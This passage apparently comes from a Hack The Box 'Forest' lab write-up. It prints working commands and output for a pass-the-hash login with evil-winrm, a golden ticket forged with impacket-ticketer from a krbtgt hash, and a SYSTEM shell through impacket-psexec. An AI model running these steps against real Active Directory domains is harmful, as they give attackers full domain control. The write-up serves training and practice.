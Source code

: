 ```powershell
$ evil-winrm -i forest.htb -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
Evil-WinRM shell v3.5
...
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
ad4c398...
```

## Post-exploitation

With the `krbtgt` hash from above and the domain SID (from `enum4linux-ng`, or via PowerView, or…) I can grab a [golden ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket):

```console
$ impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local e
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/e
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in e.ccache
```

Export the variable for the ticket name:

```console
$ export KRB5CCNAME=e.ccache
```

The `psexec` command that's coming soon can be a little tricky about which parts need to resolve as DNS names. I update `/etc/hosts`:

```text
10.10.10.161 forest.htb htb.local forest
```

Now, `psexec` should work with the malicious ticket. This particular DC currently has a clock skew of approximately seven-minutes, so this command uses [faketime](https://pkg.kali.org/pkg/faketime) to match the skew.

```console
$ faketime -f +7m impacket-psexec htb.local/e@forest -k -no-pass -debug
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
...
[+] SPN CIFS/FOREST@HTB.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/HTB.LOCAL@HTB.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at HTB.LOCAL:88
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
